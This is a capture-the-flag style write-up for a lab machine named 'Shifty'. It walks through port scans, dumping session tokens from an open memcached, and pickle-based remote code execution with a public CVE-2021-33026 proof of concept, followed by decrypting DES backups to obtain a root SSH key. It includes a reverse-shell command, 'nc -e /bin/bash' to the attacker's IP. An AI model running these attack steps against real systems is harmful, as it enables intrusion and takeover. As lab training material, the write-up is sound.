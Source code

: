 # Shifty

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.59 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:57 +08
Nmap scan report for 192.168.202.59
Host is up (0.17s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT      STATE  SERVICE
22/tcp    open   ssh
53/tcp    closed domain
80/tcp    open   http
5000/tcp  open   upnp
11211/tcp open   memcache
```

Memcache was open, of all things. I did a detailed `nmap` scan as well:

```
$ sudo nmap -p 80,5000,11211 -sC -sV --min-rate 4000 192.168.202.59           
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:58 +08
Nmap scan report for 192.168.202.59
Host is up (0.17s latency).

PORT      STATE SERVICE   VERSION
80/tcp    open  http      nginx 1.10.3
|_http-generator: Gatsby 2.22.15
|_http-server-header: nginx/1.10.3
|_http-title: Gatsby + Netlify CMS Starter
5000/tcp  open  http      Werkzeug httpd 1.0.1 (Python 3.5.3)
|_http-server-header: Werkzeug/1.0.1 Python/3.5.3
|_http-title: Hello, world!
11211/tcp open  memcached Memcached 1.4.33 (uptime 150 seconds)
```

Interesting.&#x20;

### Web + Memcache Enum

Port 80 looked rather static:

<figure><img src="../../../.gitbook/assets/image (2223).png" alt=""><figcaption></figcaption></figure>

There was no public exploit for this software either, so let's move on. Port 5000 looked way more promising:

<figure><img src="../../../.gitbook/assets/image (2148).png" alt=""><figcaption></figcaption></figure>

We can login, and there's no additional functionality with this website. Viewing the requests, we can see that the login just assigned us a token:

<figure><img src="../../../.gitbook/assets/image (3658).png" alt=""><figcaption></figcaption></figure>

Moving to Memcache, we can dump it using `memcdump`. We instantly get loads of tokens:

```
$ memcdump --servers=192.168.202.59
<TRUNCATED>
session:8245fa94-7b27-4d99-a1c3-18a9f9db8e54
session:e90dd194-0be7-41f5-9362-a96431bea058
session:d5b40159-2bc4-4b57-91ae-2839ff3b040e
session:5cd631b0-49ba-4059-aae8-5dbae44f7c43
```

The last one was the same as above. I tried replacing the cookie within the request:

```http
GET /admin HTTP/1.1
Host: 192.168.202.59:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.202.59:5000/login
Connection: close
Cookie: session=hellothere
Upgrade-Insecure-Requests: 1

```

Interestingly, this cookie is stored in Memcached, indicating there's no cookie sanitisation there. Perhaps this could be poisoned?

<figure><img src="../../../.gitbook/assets/image (3353).png" alt=""><figcaption></figcaption></figure>

### Pickling RCE

I googled 'memcache cookie poisoning exploit' and looked at all the results. This repo was one of them:

{% embed url="https://github.com/CarlosG13/CVE-2021-33026" %}

It looked exactly like what I needed. So I tested it after resetting the VPN and the machine.&#x20;

```
$ python3 cve-2021-33026_PoC.py --rhost '192.168.202.59' --rport '5000' --cmd 'nc -e /bin/bash 192.168.45.179 80' --cookie 'session:session=5cd631b0-49ba-4059-aae8-5dbae44f7c43'
 ____ ___ ____ _  ___     _____         
|  _ \_ _/ ___| |/ / |   | ____|        
| |_) | | |   | ' /| |   |  _|    _____ 
|  __/| | |___| . \| |___| |___  |_____|
|_|  |___\____|_|\_\_____|_____|        
                                        
 __  __ _____ __  __  ____    _    ____ _   _ _____ ____   
|  \/  | ____|  \/  |/ ___|  / \  / ___| | | | ____|  _ \  
| |\/| |  _| | |\/| | |     / _ \| |   | |_| |  _| | | | | 
| |  | | |___| |  | | |___ / ___ \ |___|  _  | |___| |_| | 
|_|  |_|_____|_|  |_|\____/_/   \_\____|_| |_|_____|____/  
                                                           
  ____   ___ ___ ____   ___  _   _ ___ _   _  ____  
 |  _ \ / _ \_ _/ ___| / _ \| \ | |_ _| \ | |/ ___| 
 | |_) | | | | |\___ \| | | |  \| || ||  \| | |  _  
 |  __/| |_| | | ___) | |_| | |\  || || |\  | |_| | 
 |_|    \___/___|____/ \___/|_| \_|___|_| \_|\____|
```

We would get a shell on our listener port:

<figure><img src="../../../.gitbook/assets/image (2222).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Encrypted Files --> Root SSH

There was a `backup.py` file within `/opt/backups`:

```python
import sys
import os
import hashlib
from des import des, CBC, PAD_PKCS5

def backup(name, file):
    dest_dir = os.path.dirname(os.path.realpath(__file__)) + '/data'
    dest_name = hashlib.sha224(name.encode('utf-8')).hexdigest()
    with open('{}/{}'.format(dest_dir, dest_name), 'wb') as dest:
        data = file.read()
        k = des(b"87629ae8", CBC, b"\0\0\0\0\0\0\0\0", pad=None, padmode=PAD_PKCS5)
        cipertext = k.encrypt(data)
        dest.write(cipertext)

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print('Usage: {} <file>'.format(sys.argv[0]))
    
    FILENAME = sys.argv[1]
    FILENAME = os.path.abspath(FILENAME)
    print('Backing up "{}"'.format(FILENAME))
    f = None
    try:
        f = open(FILENAME, 'rb')
        backup(FILENAME, f)
    except Exception as e:
        print('Could not open {}'.format(FILENAME))
        print(e)
    finally:
        if f:
            f.close()
```

In the `data` directory, there's also loads of encrypted files:

```
jerry@shifty:/opt/backups/data$ ls
0317ce62a75684cf0fcf8452a7fe5e5e919d1b730644bf16a304a919
11e3e83c5ea13aaed3b3ceb5edd72b9431ebc6ec2c447d412a0b7c7c
1a171f6f6491d3e4ca9cc0ca15a6c508c8815f6e29004bb29c0724d5
1cb607653518c3b1f08b1341322ead36dd8f93c3d2bfa23916fe28bd
1fd8c1281b186594d3d49f38cded4ce40faf862e9d409eb2a3a201cf
25a74de564e2aa81fbb8682f3fef798deda63f4cca65fd58901caecb
31328fa57f5c504df041f7f4f45498c766c0d12c33f78f33cff66bca
3fa4dcd297e960dc9e875437c67e7817356c487f57f828453756a2cc
403c9401a0224bd4f483dedb33ed0bf37fbd93881783ea0e600a49ff
5b1c7de10787e87d4d868457b7bf828154f1d02f653f2b57bce17abc
65895ecf8b82b9fa742e8fabde0fd7e60f1258a9e7ba3c1e9367a3e0
7297aeb420d0530ccb52dcb7f905ecc8deffefc32d02691561a9172e
7824132f0f0cc6da1dce3763d50c38c2941d07f9648e34c6c9b9ccf8
8cd58cbefd50ef93f1a3b173456f9b6a09a7318ada378c3a49a980f2
9038291aaa6b222363fc78837b934d1e2f96bb7cfe11fd3d73149e72
92e8127d493e205bfbd8a9c0dd165da2154768cebafa1c752d9bf0dc
dd533e5634f95c6d86a4f37f01453f5326c80e58b8a01f0a4222c011
dfe0444a971a789bb405c54c270ae25460f5699319aad697c7fd35ee
f166b490169e7de5795a09305837198579daad4694e233d49b126d91
```

I made a copy of all these files within my home directory, and began decrypting it using `openssl`. From the python script and based on the documentation for `des`, the key would be `87629ae8` and the IV is all null bytes.&#x20;

Since the key is interpreted as a bytes type object, we need to convert it to hex, which would give `3837363239616538`.&#x20;

Then, we can decrypt the files:

{% code overflow="wrap" %}
```
jerry@shifty:~/backup$ openssl enc -d -des-cbc -K 3837363239616538 -iv "0000000000000000" -in 3fa4dcd297e960dc9e875437c67e7817356c487f57f828453756a2cc -out decrypt
```
{% endcode %}

Then, we can bulk decrypt all of these files using a `bash` for loop:

{% code overflow="wrap" %}
```bash
for FILE in *; do openssl enc -d -des-cbc -K 3837363239616538 -iv "0000000000000000" -in $FILE -out decrypt$FILE; rm $FILE; done
```
{% endcode %}

Then, we can read all of the files. Within the decrypted files, there was a SSH private key:

<figure><img src="../../../.gitbook/assets/image (2615).png" alt=""><figcaption></figcaption></figure>

Using this, we can `ssh` in as `root`:

<figure><img src="../../../.gitbook/assets/image (1698).png" alt=""><figcaption></figcaption></figure>

Rooted!
